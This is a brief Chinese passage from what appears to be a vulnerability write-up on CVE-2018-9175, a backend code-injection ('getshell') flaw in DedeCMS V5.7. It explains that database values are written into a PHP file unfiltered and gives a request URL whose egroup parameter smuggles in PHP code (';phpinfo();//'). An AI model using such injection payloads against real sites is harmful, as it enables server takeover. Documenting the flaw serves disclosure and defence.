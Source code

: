 可以看到，直接从数据库中读取并写入php文件中，从数据库中取出后并没有经过过滤。

将shell写进数据库中

    http://0-sec.org/dede/stepselect_main.php?action=addenum_save&ename=123&egroup=;phpinfo();//&islogin=1

![](./resource/(CVE-2018-9175)DedecmsV5.7后台的两处getshell/media/rId27.png)

### 复现
